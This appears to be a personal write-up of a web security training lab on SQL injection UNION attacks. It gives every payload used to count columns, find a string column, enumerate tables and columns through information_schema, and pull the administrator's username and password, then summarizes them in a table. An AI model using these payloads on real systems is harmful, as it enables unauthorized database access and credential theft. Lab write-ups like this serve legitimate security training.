

# SQL Injection UNION Attack – Complete Lab Solution

## Lab: Retrieving Usernames and Passwords from Randomized Database

---

## Step 1: Find the Number of Columns

**Test payloads I sent:**

```
' UNION SELECT NULL --
' UNION SELECT NULL, NULL --
' UNION SELECT NULL, NULL, NULL --
```

**Result I got:** The query works with 2 columns (`NULL, NULL`), so the database has 2 columns.

---

## Step 2: Find Which Column Accepts String Data

**Test payloads I sent:**

```
' UNION SELECT 'a', NULL --
' UNION SELECT NULL, 'a' --
```

**Result I got:** Column 2 accepts string data (I saw `'a'` in the response).

---

## Step 3: Find All Table Names in the Database

**Payload I sent:**

```
' UNION SELECT NULL, table_name FROM information_schema.tables --
```

**Result I got:** I found a table named `users_yvevnn` among other tables.

---

## Step 4: Find Column Names in the Users Table

**Payload I sent:**

```
' UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name = 'users_yvevnn' --
```

**Result I got:** The table has these columns:
- `username_zamkhb`
- `password_exvphi`
- `email`

---

## Step 5: Retrieve Usernames and Passwords

Since there are 2 columns and only column 2 accepts strings, I combined username and password into one column.

**Payload I sent:**

```
' UNION SELECT NULL, username_zamkhb || '~' || password_exvphi FROM users_yvevnn --
```

**URL encoded:**

```
%27%20UNION%20SELECT%20NULL%2C%20username_zamkhb%7C%7C%27~%27%7C%7Cpassword_exvphi%20FROM%20users_yvevnn%20--
```

**Result I got:**

```
administrator~6v1u4grmex3cqegxx3r7
```

---

## Step 6: Log in as Administrator

1. I went to the **My Account** page  
2. Entered username: `administrator`  
3. Entered password: `6v1u4grmex3cqegxx3r7`  
4. Clicked **Log in**

---

## Lab Solved ✓

---

## Complete Payload Summary Table

| Step | Purpose | Payload |
|------|--------|---------|
| 1 | Find column count | `' UNION SELECT NULL, NULL --` |
| 2 | Find string column | `' UNION SELECT NULL, 'a' --` |
| 3 | Find table names | `' UNION SELECT NULL, table_name FROM information_schema.tables --` |
| 4 | Find column names | `' UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name = 'users_yvevnn' --` |
| 5 | Get credentials | `' UNION SELECT NULL, username_zamkhb \|\| '~' \|\| password_exvphi FROM users_yvevnn --` |

---

## Key Takeaways

1. I must find the column count first or the UNION attack fails  
2. I need to identify which column accepts strings  
3. `information_schema` helps me find tables and columns  
4. I used concatenation (`||`) to combine username and password  
5. I need to be careful with comments like `--` (sometimes need space)

---

## Notes About This Lab

- Database type: **PostgreSQL** (because `||` worked)  
- Table name was randomized: `users_yvevnn`  
- Column names were randomized: `username_zamkhb`, `password_exvphi`  
- I used `--` for comments  

---

**Lab Completed Successfully**

